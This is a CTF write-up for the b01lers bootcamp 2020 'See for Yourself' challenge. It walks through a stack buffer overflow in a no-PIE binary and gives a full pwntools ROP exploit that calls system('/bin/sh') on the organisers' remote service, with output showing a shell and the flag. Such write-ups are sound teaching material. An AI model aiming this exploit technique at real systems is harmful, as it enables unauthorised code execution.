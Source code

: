 # b01lers bootcamp CTF 2020

## See for Yourself

> 200
>
> The matrix requires a more advanced trick this time. Hack it.
>
> `nc chal.ctf.b01lers.com 1008`
> 
> [simplerop](simplerop)  
> [simplerop.c](simplerop.c)

Tags: _pwn_ _x86-64_ _remote-shell_ _bof_ _rop_


## Summary

Very basic ROP, with parts included.
 

## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Not a lot in place.  Perfect for ROP.


### Decompile with Ghidra

```c
int main(void)
{
  char *shellcode [1];
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  system((char *)0x0);
  puts("Unfortunately, no one can be told what the Matrix is. You have to see it for yourself.");
  read(0,shellcode,0x40);
  return 0;
}
```

The binary comes with `system` "built-in".  The question is, _is `/bin/sh` also there?_

```bash
# strings simplerop | grep /bin/sh
/bin/sh
```

Yep.

All that we need to know how is how far `shellcode` is from the return address on the stack:

```
char *[1]         Stack[-0x8]:8      shellcode
```

`8`.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./simplerop')
binary.plt['system'] = 0x401080 # see .plt.sec in ghidra or GDB output
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    p = remote('chal.ctf.b01lers.com', 1008)

rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

payload  = 0x8 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(binary.search(b'/bin/sh').__next__())
payload += p64(binary.plt.system)

p.sendline(payload)
p.interactive()
```

Normally I get any linked in function with `binary.plt.functionname`, but newer libc I assume moved that to `.plt.sec` and pwntools does not search that (yet).  After finding with Ghidra and checking with GDB, I just manually added the location.

The rest is standard fare CTF no-PIE ROP:

1. Find a `pop rdi` gadget
2. Create a payload to call `system`

> The `pop_rdi + 1` = `ret` and is there to align the stack for `system`.

Output:

```
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/b01lersbootcampctf2020/see_for_yourself/simplerop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to chal.ctf.b01lers.com on port 1008: Done
[*] Loaded 13 cached gadgets for './simplerop'
[*] Switching to interactive mode
Unfortunately, no one can be told what the Matrix is. You have to see it for yourself.
$ id
uid=1000(simplerop) gid=1000(simplerop) groups=1000(simplerop)
$ ls -l
total 36
-r-xr-x--- 1 root simplerop    89 Oct  2 18:33 Makefile
-r--r----- 1 root simplerop    24 Oct  2 18:33 flag.txt
-r-xr-x--- 1 root simplerop 19672 Oct  3 04:08 simplerop
-r-xr-x--- 1 root simplerop   339 Oct  2 18:33 simplerop.c
-r-xr-x--- 1 root simplerop    47 Oct  2 18:33 wrapper.sh
$ cat flag.txt
flag{ROP_ROOP_OOP_OOPS}
```

